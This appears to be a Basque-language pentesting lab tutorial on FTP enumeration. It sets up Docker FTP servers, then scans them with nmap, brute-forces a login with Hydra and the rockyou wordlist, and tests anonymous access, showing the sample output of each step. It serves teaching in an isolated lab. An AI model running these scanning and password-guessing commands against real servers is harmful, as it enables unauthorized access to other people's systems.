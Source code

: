 
- [FTP ennumerazioa](#ftp-ennumerazioa)
  - [Docker Pasahitza duen ftp zerbitzaria ( hacking lab docker-composen jada gehituta)](#docker-pasahitza-duen-ftp-zerbitzaria--hacking-lab-docker-composen-jada-gehituta)
  - [Docker Pasahitzik gabeko ftp zerbitzaria](#docker-pasahitzik-gabeko-ftp-zerbitzaria)
  - [Pasahitza duen FTP zerbitzaria eraso](#pasahitza-duen-ftp-zerbitzaria-eraso)
    - [Rock you pasahitz dikzionarioa deskargatu](#rock-you-pasahitz-dikzionarioa-deskargatu)
    - [FTP zerbitzua aurkitu nmap-ekin](#ftp-zerbitzua-aurkitu-nmap-ekin)
    - [Hydra](#hydra)
  - [Pasahitzik gabeko FTP zerbitzaria eraso](#pasahitzik-gabeko-ftp-zerbitzaria-eraso)


# FTP ennumerazioa

Mota honetan, fitxategiak transferitzeko protokoloari (FTP) buruz hitz egingo dugu, eta horri buruzko azterketa nola aplikatu informazioa biltzeko.

FTP protokolo asko erabiltzen da fitxategiak sareetara transferitzeko. FTP zerbitzuaren zerrendatzeak informazio garrantzitsua biltzea dakar, hala nola FTP zerbitzariaren bertsioa, fitxategien baimenen konfigurazioa, erabiltzaileak eta pasahitzak (indar gordineko erasoen edo guessing-en bidez), besteak beste.

Jarraian, gela honetan ukitzen dugun lehen proiekturako esteka duzue:

## Docker Pasahitza duen ftp zerbitzaria ( hacking lab docker-composen jada gehituta)

Docker-FTP-Server: https://github.com/garethflowers/docker-ftp-server

Deskargatzen dugun lehen proiekturako erabiltzen dugun tresnetako bat "Hydra" da. Hydra kode irekiko sartze-probak egiteko tresna bat da, eta pasahitzak babestutako sistemen eta zerbitzuen aurka indar gordineko erasoak egiteko erabiltzen da. Tresna oso pertsonalizagarria da eta sareko protokolo-sorta zabala onartzen du, besteak beste, HTTP, FTP, SSH, Telnet eta SMTP.

FTPrako erabiltzaile gonbidatuak autentifikatzea ahalbidetzen duen edukiontzia hedatzeko erabiltzen ditugun proiektuen artean hurrengoa "metabrainz" en "docker-anon-ftp" proiektua da. Jarraian, proiekturako esteka duzue:

## Docker Pasahitzik gabeko ftp zerbitzaria

Docker-ANON-FTP: https://github.com/metabrainz/docker-anon-ftp

```bash 
docker run -d -p 20-21:20-21 -p 65500-65515:65500-65515 -v /tmp:/var/ftp:ro --network=hacking-lab_pentesting-lab-network metabrainz/docker-anon-ftp 
```

## Pasahitza duen FTP zerbitzaria eraso

###  Rock you pasahitz dikzionarioa deskargatu 


https://github.com/zacheller/rockyou

```bash
cd
git clone https://github.com/zacheller/rockyou
cd rockyou
mkdir /usr/share/wordlists
tar xC /usr/share/wordlists -f rockyou.txt.tar.gz
```

### FTP zerbitzua aurkitu nmap-ekin

Erabili localhost edo sarea + maskara hurrengo aginduan

```bash
nmap -sCV -p20,21 127.18.0.0\16
```

Honelako erantzunen bat agertu beharko litzateke:
```bash
Nmap scan report for my-ftp-server.hacking-lab_pentesting-lab-network (172.18.0.6)
Host is up (0.000036s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 2.0.8 or later
MAC Address: 02:42:AC:12:00:06 (Unknown)
```


### Hydra 

```bash
hydra -l user -P rockyou.txt ftp://172.18.0.6 -t 15
```

Mayuskula bada dikzionario bat erabiliko du, minuskula bada, parametro hori erabiltzaile/pasahitz gisa erabiliko da.

- -l erabiltzailea dakigu
- -L erabiltzailea dikzionario batetik hartuko du
- -P pasahitz dikzionarioa erabiliz
- -t 15 : 15 thread aldi berean

Honelako erantzun bat agertu beharko litzateke:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-30 12:49:37
[DATA] max 15 tasks per 1 server, overall 15 tasks, 200 login tries (l:1/p:200), ~14 tries per task
[DATA] attacking ftp://172.18.0.6:21/
[21][ftp] host: 172.18.0.6   login: user   password: louise
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-30 12:50:06
```

## Pasahitzik gabeko FTP zerbitzaria eraso

Kasu honetan erabil froga dezakegu zuzenenan Anonymus erabiltzailerarekin edo nmapek eskuragarri duen `ftp-anon` scriptarekin

```bash
nmap --script ftp-anon -p21 172.18.0.2
```

Honelako erantzun bat itzuli beharko luke:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 13:02 UTC
Nmap scan report for f0304f75721e.hacking-lab_pentesting-lab-network (172.18.0.2)
Host is up (0.000037s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```